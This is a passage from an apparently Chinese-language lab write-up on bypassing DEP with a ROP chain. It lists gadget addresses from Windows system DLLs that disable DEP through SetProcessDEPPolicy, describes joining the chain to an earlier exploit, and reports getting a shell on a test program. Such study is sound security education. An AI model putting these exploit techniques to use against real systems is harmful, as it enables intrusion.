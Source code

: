     0x77bf4f42,   # RETN
    0x90909090,
    0x7c80df32,   # POP EBP # RETN
    0x7c862144,   # ptr to SetProccessDEPPolicy()
    0x7c81ae28,   # POP EBX # RETN [kernel32.dll]
    0x00000000,   # 0x00000000（dwFlags）
    0x7c86ce63,   # POP EDI # RETN [kernel32.dll] 
    0x77bf54c4,   # ptr RETN
    0x7c87b976,   # POP ESI # RETN [msvcrt.dll]
    0x77bf5502,   # ptr RETN
    0x77d23ad9,   # PUSHAD # RETN [user32.dll]

因为shellcode.exe在溢出点函数返回时是 ``“RETN 0x04”``，因此我加入了前两个ROP小配件进行过渡，使得整个ROP链能够串起来。

下面我们将我们构造的ROP链与最开始的exp重新结合一下，构成新的exp（利用ROP绕过DEP）。

![img]({{ site.url }}/public/img/article/2014-08-26-bypass-dep-with-rop-study/127-e1408992369637.png)

然后，我们在系统开启DEP保护的情况下，使用新的exp进行溢出尝试

![img]({{ site.url }}/public/img/article/2014-08-26-bypass-dep-with-rop-study/128-e1408992392779.png)

执行exp

![img]({{ site.url }}/public/img/article/2014-08-26-bypass-dep-with-rop-study/129-e1408992417574.png)

可以看到使用新的exp已经成功getshell了

![img]({{ site.url }}/public/img/article/2014-08-26-bypass-dep-with-rop-study/130-e1408992437204.png)

至此整个实验就完了，我们使用ROP链成功DEP使得我们的shellcode执行，具体的调试过程这里就不过多演示了，后面有该测试程序的链接，有兴趣的同学可以自己手动实践一下，我也是彩笔一抹，互相学习！

（测试程序打包：[http://pan.baidu.com/s/1c0vkGpU](http://pan.baidu.com/s/1c0vkGpU)）